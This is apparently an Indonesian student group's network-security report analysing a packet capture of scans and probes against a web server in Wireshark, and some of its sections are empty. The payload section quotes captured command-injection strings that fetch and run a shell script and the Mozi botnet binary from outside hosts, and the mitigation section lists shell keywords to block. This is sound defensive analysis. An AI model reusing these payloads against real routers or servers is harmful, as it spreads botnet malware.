



# Laporan Analisis Keamanan Jaringan: Investigasi Trafik Serangan, Scans, dan Probes pada Web Server

## 00. Pembagian Tugas Kelompok

| Nama | NRP | Pembagian Analisis |
| :--- | :--- | :--- |
| Afriezal | 50272510xx | Poin 1 - 4 (Pendahuluan, Profiling IP, Jenis Scan, & Target Port) |
| D'Qhaizhar Ari Dhiaulhaq | 5027251083 | Poin 5 - 7 (Anomali Volume, I/O Graph, & Analisis User-Agent) |
| Rayhan Fadhilah Allayn | 5027251126 | Poin 8 - 10 (Status Respon Server, Payload, & Kesimpulan Mitigasi) |

## 1. Pendahuluan
Dalam tugas kelompok ini, kami mengambil studi kasus mengenai analisis lalu lintas jaringan pada sebuah server web publik yang menghadapi pemindaian (*scanning*), *probe*, dan trafik mencurigakan dari internet selama tujuh hari
* **Sumber File PCAP:** Malware-Traffic-Analysis (Tanggal 7 Agustus 2026)
* **Tautan Sumber Resmi:** [Malware-Traffic-Analysis 2026-08-07](https://malware-traffic-analysis.net/2026/08/07/index.html)
* **Pasword file:** infected_20260807

---

## 2. Metodologi dan Langkah Identifikasi di Wireshark
Berikut adalah rincian 10 poin utama yang kamianalisis beserta cara mengidentifikasinya di dalam file PCAP menggunakan Wireshark:

### 1. Identifikasi Sumber Serangan (Attacker IP / Scanner IP) & Pemetaan Alamat IP Penyerang (Attacker Profiling)
* **Cara Identifikasi:**
* **Hasil Analisis:** 

### 2. Jenis Scan atau Probe yang Diduga Digunakan (Network/Port Scanning)
* **Cara Identifikasi:** 
* **Hasil Analisis:** 

### 3. Target Layanan Jaringan yang Disasar (IP Services / Ports)
* **Cara Identifikasi:** 
* **Hasil Analisis:** 

### 4. Pola HTTP Request / Web Traffic (Jika Menyerang Web Server)
* **Cara Identifikasi:** 
* **Hasil Analisis:** 

### 5. Indikator Anomali Lainnya (Frequency & Volume)
* **Cara Identifikasi:** 
  1. Buka file PCAP di Wireshark dan amati daftar paket utama.
  2. Perhatikan kolom **Info** yang dipenuhi dengan warna merah mencolok, yang menandakan adanya aktivitas paket TCP bertipe `[SYN]` dan `[RST, ACK]`.

  

  3. Amati kolom **Time** dan **Source/Destination** secara berurutan untuk melihat pola kedatangan paket

* **Hasil Analisis:** 
  * Ditemukan anomali berupa lonjakan permintaan koneksi TCP SYN secara bertubi-tubi dalam rentang waktu yang sangat singkat (dalam skala milidetik) dari berbagai alamat IP publik yang berbeda menuju ke satu IP server target (`203.161.44.208`).
  * Server merespons secara instan dengan mengirimkan paket `[RST, ACK]` (reset/tolak), yang menunjukkan adanya indikasi kuat aktivitas pemindaian port massal (*mass port scanning*) atau *automated probing*.
 
  

### 6. Analisis Volume dan Tren Trafik (I/O Graph)
* **Cara Identifikasi:** 
  1. Klik menu bar bagian atas di Wireshark, lalu pilih **Statistics** > **I/O Graph**.
  2. Jendela *I/O Graphs* akan terbuka untuk menampilkan grafik naik-turun volume paket terhadap waktu (*packets/s*).
  3. Pastikan filter dan opsi grafik mencakup keseluruhan paket (`All Packets`) dan kesalahan TCP (`TCP Errors`) untuk melihat anomali beban trafik.

  [!image](Assets/nomo6.png)

* **Hasil Analisis:** 
  * Berdasarkan grafik yang dihasilkan, terlihat sebagian besar durasi memiliki rata-rata volume trafik yang rendah dan stabil di bawah 100 packets/s.
  * Namun, terdapat beberapa lonjakan tajam (*spike*) yang signifikan di titik waktu tertentu (mendekati 1000 packets/s pada puncak tertinggi), yang menandakan waktu terjadinya gelombang serangan pemindaian atau serangan siber secara masif ke arah web server.

### 7. User-Agent dan Tool yang Digunakan Penyerang
* **Cara Identifikasi:** 
  1. Ketik perintah filter **`http`** pada bar filter bagian atas Wireshark lalu tekan Enter untuk menyaring khusus trafik web.

  

  2. Pilih salah satu baris trafik HTTP yang mencurigakan (misalnya metode `POST /goform/set_LimitClient_cfg` pada paket nomor 4349).
  3. Klik dua kali pada paket tersebut untuk membuka jendela detail, lalu luaskan bagian protokol **Hypertext Transfer Protocol (HTTP)** di panel tengah.
  4. Cari baris parameter **User-Agent** untuk melihat identitas perangkat atau aplikasi pengirim.

  

* **Hasil Analisis:** 
  * Dari hasil inspeksi detail paket HTTP, ditemukan baris **`User-Agent: Go-http-client/1.1`**.
  * Hal ini membuktikan bahwa penyerang tidak menggunakan peramban web standar (seperti Chrome atau Firefox), melainkan menggunakan skrip otomatisasi atau *custom program* berbasis bahasa pemrograman Go (*Golang HTTP Client*) untuk melakukan *automated probing* dan pengiriman perintah eksploitasi ke web server.

### 8. Status Respon Server (HTTP Response Status Codes)
* **Cara Identifikasi:** Diidentifikasi melalui kolom status code pada log akses web server Apache atau packet capture (pcap) Wireshark, yang mencatat kode tiga digit respon HTTP dari server untuk setiap permintaan client.
* **Hasil Analisis:** 
- 404 Not Found: Muncul pada permintaan ke endpoint `/goform/set_LimitClient_cfg`, `/login`, dan `/favicon.ico`. Menandakan path atau komponen target tidak ada di server.

- 405 Method Not Allowed: Terjadi pada permintaan dengan metode `CONNECT 104.16.185.241:443`. Server menolak karena hanya mendukung metode `POST`, `OPTIONS`, `HEAD`, dan `GET`.

- 400 Bad Request: Muncul saat penyerang mengirimkan permintaan berprotokol HTTP/2 (`PRI * HTTP/2.0`) atau header tidak valid ke port HTTP standar (80).

- 200 OK: Terjadi pada akses halaman utama (`GET /`) dari lalu lintas normal maupun alat pemindai otomatis (CensysInspect dan zgrab), menunjukkan server berhasil menyajikan konten HTML wiresharkworkshop.online.

### 9. Analisis Payload atau Data yang Dikirim (Request Parameters / POST Data)
* **Cara Identifikasi:** Diidentifikasi dengan menganalisis string URL query, parameter request, serta body payload (POST data) pada log HTTP request atau rekonstruksi stream HTTP di Wireshark untuk menemukan sintaks perintah sistem, skrip berbahaya, atau pola eksploitasi.

* **Hasil Analisis:** 

- **Command Injection via `/goform/set_LimitClient_cfg`**:
  - **Payload**:
  `time1=00:00-00:00&time2=00:00-00:00&mac=;wget 31.56.209.153/nz.sh; curl -O 31.56.209.153/nz.sh; chmod 777 nz.sh; sh nz.sh; rm -rf nz.sh; rm -rf nz.sh*`
  - **Analisis**: Upaya menginjeksi perintah shell melalui parameter `mac` pada form router Tenda/CGI untuk mengunduh, mengeksekusi, dan menghapus skrip berbahaya (`nz.sh`) dari IP `31.56.209.153`.

- **Eksploitasi Mozi Botnet via `/board.cgi`**:
  - **Payload:** `GET /board.cgi?cmd=cd+/tmp;rm+-rf+*;wget+[http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+varcron](http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+varcron)`
  - **Analisis:** Upaya memanfaatkan kerentanan Command Injection pada interface CGI untuk mengunduh malware Mozi Botnet (`Mozi.a`) ke direktori `/tmp` dan menjalankannya di background.

- **Reconnaissance & Automated Scanning**: 
Pemindaian otomatis menggunakan User-Agent seperti CensysInspect/1.1 dan zgrab/0.x untuk mengidentifikasi port terbuka, versi Apache (2.4.58 Ubuntu), serta struktur direktori web.

### 10. Kesimpulan & Rekomendasi Mitigasi (Security Hardening)
* **Kesimpulan:** Server target secara aktif menjadi sasaran pemindaian otomatis dan percobaan serangan Remote Code Execution (RCE) / Command Injection yang bertujuan merekrut perangkat ke dalam botnet (seperti Mozi) serta mengunduh payload berbahaya. Seluruh percobaan eksploitasi dalam log ini gagal karena endpoint sasaran tidak ditemukan (404) atau metode ditolak (405).

* **Rekomendasi Mitigasi:** 
  1. Sanitasi & Validasi Input: Validasi dan bersihkan seluruh masukan pengguna dari karakter khusus shell (seperti ;, &, |, `, $) pada aplikasi web.
  2. Implementasi WAF (Web Application Firewall): Pasang WAF untuk mendeteksi dan memblokir otomatis permintaan yang mengandung pola perintah shell berbahaya (wget, curl, chmod, sh, rm).
  3. Pengerasan Direktori Temporary (/tmp): Mount direktori /tmp dengan opsi noexec untuk mencegah eksekusi file biner atau skrip berbahaya yang diunggah.
  4. Pembatasan Metode HTTP & Akses CGI: Nonaktifkan metode HTTP yang tidak relevan serta hapus atau batasi akses ke endpoint CGI/legacy yang tidak digunakan.
  5. Pemblokiran IP Berbahaya: Blokir IP yang terindikasi melakukan aktivitas eksploitasi (seperti 31.56.209.153) menggunakan firewall (iptables/UFW).

---
